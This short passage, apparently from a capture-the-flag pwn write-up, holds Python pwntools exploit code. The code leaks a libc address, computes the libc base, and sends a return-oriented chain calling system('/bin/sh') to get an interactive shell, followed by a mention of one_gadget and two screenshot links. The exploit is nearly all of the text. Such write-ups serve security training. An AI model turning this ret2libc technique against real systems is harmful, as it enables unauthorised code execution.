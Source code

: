 ```python
puts_libc_addr = int(r.recvline())
log.success("puts addr: {}".format(hex(puts_libc_addr)))
r.recvuntil('messege: ')

libc_base_addr = puts_libc_addr - puts_libc_offset

p = 'a'*0x38
p += p64(libc_base_addr + pop_rdi_libc_offset)
p += p64(libc_base_addr + sh_offset)
p += p64(ret)
p += p64(libc_base_addr + system_libc_offset)

r.send(p)

r.interactive()
```

使用one_gadget

![image-20220107223750664](/assets/img/2022/image-20220107223750664.png)

![image-20220107223840052](/assets/img/2022/image-20220107223840052.png)

